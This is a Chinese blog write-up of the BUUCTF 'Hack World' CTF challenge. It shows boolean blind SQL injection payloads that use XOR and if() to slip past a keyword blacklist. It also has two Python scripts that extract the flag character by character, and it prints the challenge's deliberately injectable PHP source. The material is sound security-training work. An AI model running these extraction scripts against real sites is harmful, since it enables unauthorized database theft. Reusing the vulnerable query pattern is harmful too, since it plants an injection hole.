







<!--yml
category: 未分类
date: 2022-04-26 14:38:34
-->

# BUUCTF__[CISCN2019 华北赛区 Day2 Web1]Hack World_题解_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/tm_1024/article/details/106978766](https://blog.csdn.net/tm_1024/article/details/106978766)

## 前言

*   又是颓废的一天，在家已经5个月了
*   做题速度太慢了。。。跟不上进度。我是懒狗

## 读题

*   sql注入题，而且直接告诉你flag在表flag中的flag字段。让你提交查询id
    
*   查询1和2会有回显，输入其它数值都会提示错误。
*   抓包跑一下字典看一下过滤的内容（学到的新技能，原来bp的intruder还能这样用），字典的内容就是常见的sql注入的一些函数名、符号啥的
*   不过有一点是，BUU有限制，访问太快会提示429拒绝访问，所以，需要设置一下延时，我这个设置的有点慢。。。
    
*   跑完看返回的报文，返回长度有493、492、482、472。分别对应不同的回显
*   493
    
*   492



*   482
    
*   472
    
*   主要是482的过滤和472返回的fool，也没有其它回显，所以猜测布尔盲注。但是空格、 or、and 都被过滤了
*   接下来的操作又是新的知识点

## 研究

### 一、sql异或运算

*   了解参考[这篇文章](https://www.jianshu.com/p/27df5c67157c)

*   大概在这里应用就是`假^假 =真` ，`真^真=假`，`假^真=真`，`真^假=真`

*   当我们查询 `1^0`、`0^1`、和 `1` 的回显是一样的，而查询 `1^1` 或`0^0`却会有报错提示。

*   所以结合 sql语句 ，我们可以构造`0^payload`，若为payload结果真，则返回1，`0^1=1`，将得到查询id=1时的结果，回显Hello, glzjin wants a girlfriend。

*   但如何构造payload，因为空格被过滤，所以用括号来代替分割，这里也算学的新方法，利用ASCII码来逐一匹配

    ```
     0^(ascii(substr((select(flag)from(flag)),1,1))>1) 
    ```

*   肯定不可能手工盲注，所以，还是 python 脚本

```
import requests
import time
import re
url='http://d46c0271-1651-4746-9c9a-e9a975bfcd95.node3.buuoj.cn/index.php'
flag = ''
for i in range(1,43):
    max = 127
    min = 0
    for c in range(0,127):
        s = (int)((max+min)/2)
        payload = '1^(ascii(substr((select(flag)from(flag)),'+str(i)+',1))>'+str(s)+')'
        r = requests.post(url,data = {'id':payload})
        time.sleep(0.005)
        if 'Hello, glzjin wants a girlfriend.' in str(r.content):
            max=s
        else:
            min=s
        if((max-min)<=1):
            flag+=chr(max)
            break
print(flag) 
```

*   这是一位师傅的脚本，设置了延时，防止429, 用二分法成功得到flag
    

### 二、 sql的三目运算

> if( 表达式1，表达式2，表达式3)

> 如果表达式1是正确的，那么执行表达式2，否则执行表达式3

*   如果 if 返回正确，则执行 1 ，返回 Hello, glzjin wants a girlfriend. 否则执行 2 ，则返回 Do you want to be my girlfriend?

    ```
     if(ascii(substr((select(flag)from(flag)),1,1))=ascii('f'),1,2) 
    ```

*   差不多的脚本，只是payload有点差别而已。

```
import requests

url = 'http://d46c0271-1651-4746-9c9a-e9a975bfcd95.node3.buuoj.cn/index.php'
result = ''

for x in range(1, 50):
    high = 127
    low = 32
    mid = (low + high) // 2
    while high > low:
        payload = "if(ascii(substr((select(flag)from(flag)),%d,1))>%d,1,2)" % (x, mid)
        data = {
            "id":payload
        }
        response = requests.post(url, data = data)
        if 'Hello' in response.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2

    result += chr(int(mid))
    print(result) 
```

*   也同样的成功跑出flag
    

### 三、题目源码

```
<?php
$dbuser='root';
$dbpass='root';

function safe($sql){
    #被过滤的内容 函数基本没过滤
    $blackList = array(' ','||','#','-',';','&','+','or','and','`','"','insert','group','limit','update','delete','*','into','union','load_file','outfile','./');
    foreach($blackList as $blackitem){
        if(stripos($sql,$blackitem)){
            return False;
        }
    }
    return True;
}
if(isset($_POST['id'])){
    $id = $_POST['id'];
}else{
    die();
}
$db = mysql_connect("localhost",$dbuser,$dbpass);
if(!$db){
    die(mysql_error());
}   
mysql_select_db("ctf",$db);

if(safe($id)){
    $query = mysql_query("SELECT content from passage WHERE id = ${id} limit 0,1");

    if($query){
        $result = mysql_fetch_array($query);

        if($result){
            echo $result['content'];
        }else{
            echo "Error Occured When Fetch Result.";
        }
    }else{
        var_dump($query);
    }
}else{
    die("SQL Injection Checked.");
} 
```

## 最后

*   感觉这题知识点就是布尔盲注，结合绕过、亦或、脚本编写等其它知识点来考察。
*   附上[题目链接](https://buuoj.cn/challenges#%5BCISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day2%20Web1%5DHack%20World)
*   持续更新BUUCTF题解，写的不是很好，欢迎指正。
*   最后欢迎来访[个人博客](http://ctf-web.zm996.cloud/)